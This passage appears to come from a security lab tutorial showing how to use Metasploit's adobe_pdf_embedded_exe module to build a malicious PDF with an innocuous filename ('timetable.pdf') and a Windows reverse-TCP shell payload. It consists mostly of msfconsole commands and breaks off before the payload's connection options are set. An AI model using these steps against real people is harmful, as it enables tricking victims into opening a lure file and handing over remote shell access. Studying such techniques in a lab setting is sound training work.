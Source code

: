 When Adobe Reader opens the malicious PDF file, the user is prompted to execute a payload, with a message that tells the user to click Open, which results in the payload being executed.

==action: Run:==

```bash
msf > info exploit/windows/fileformat/adobe_pdf_embedded_exe
```

The output will include information about this exploit.

The "use" command is used to instruct msfconsole to set an exploit module for use:

==action: Run:==

```bash
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

If you select a module and then change your mind, you can run "back" to return to not using the exploit:

```bash
msf exploit(adobe_pdf_embedded_exe) > back
```

But we do want to use that one, so once again:

==action: Run:==

```bash
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

> Tip: Note that you can use TAB autocomplete, so before you finish typing the above, try pressing the TAB key. You can also use the UP and DOWN cursor keys to return to previous commands.

==action: To see the options that we need to set in order to exploit the vulnerability, run:==

```bash
msf exploit(adobe_pdf_embedded_exe) > show options
```

If you look within the "Module Options" section, you will see four things that can be set, including the name of the malicious file. ==action: Set the filename with the following command:==

```bash
msf exploit(adobe_pdf_embedded_exe) > set FILENAME ==edit:timetable==.pdf
```

You can use something other than "timetable", if you choose.

The next step is to configure the payload to use. ==action: To list compatible payloads:==

```bash
msf exploit(adobe_pdf_embedded_exe) > show payloads
```

So ==action: to use a reverse shell:==

```bash
msf exploit(adobe_pdf_embedded_exe) > set PAYLOAD windows/shell/reverse_tcp
```

